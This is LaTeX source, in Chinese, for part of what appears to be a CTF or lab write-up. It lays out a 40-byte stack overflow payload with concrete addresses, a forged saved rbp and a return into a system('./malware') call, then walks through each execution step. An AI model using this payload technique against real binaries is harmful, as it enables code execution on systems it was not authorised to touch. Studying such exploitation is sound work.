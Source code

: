 \documentclass[UTF8,a4paper,12pt,fontset=windows]{ctexart}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
\begin{center}
{\small
\begin{tabular}{|c|p{4.4cm}|p{6.4cm}|}
\hline
偏移 & 内容 & 作用 \\
\hline
0x00 & \code{"./malware\textbackslash 0"}\newline + 6 字节填充 & 凑满 16 字节缓冲区，命令串被复制到 \code{command\_buf} \\
\hline
0x10 & \code{p64(0x721000800fe8)} & 伪造 saved \code{rbp}，指向返回地址所在的那一格 \\
\hline
0x18 & \code{p64(0x401a6b)} & saved rip，跳到 \code{system()} 调用处 \\
\hline
0x20 & \code{p64(0x401c0e)} & \code{\_\_wrap\_main}，再次进入主程序 \\
\hline
\end{tabular}
}
\end{center}

整个 payload 40 字节（加上 gets 写的结束符是 41 字节），没有超过缓冲区到守卫页的
48 字节限制。

\subsection{执行过程}

\begin{enumerate}
  \item \code{gets()} 把 payload 读进 \code{expression}，数据一路覆盖到返回地址。
  \item \code{input()} 末尾的 \code{strcpy()} 把开头的 \code{"./malware"} 复制进
        \code{command\_buf}。
  \item \code{leave; ret}：\code{leave} 恢复 \code{rbp} 并让 \code{rsp} 指向返回地址，
        \code{ret} 弹出它，跳到 \code{0x401a6b}，执行 \code{system("./malware")}。
  \item \code{system()} 返回后，\code{eval()} 继续走到自己的 \code{leave; ret}。
        此时我伪造的 saved \code{rbp} 起作用了：\code{leave} 会把
        \code{[0x721000800fe8]} 弹进 \code{rbp}，也就是刚才那条 \code{0x401a6b}；
        接着 \code{ret} 取 \code{[0x721000800ff0]}，那正是我放的
        \code{\_\_wrap\_main}。它把 \code{rsp} 重置回固定栈顶并重新调用 \code{main}，
        第二次 \code{input()} 读到 EOF，执行 \code{puts(answer); exit(0)}，进程以状态码 0 退出。
\end{enumerate}

\subsection{进程树与运行结果}
\end{document}
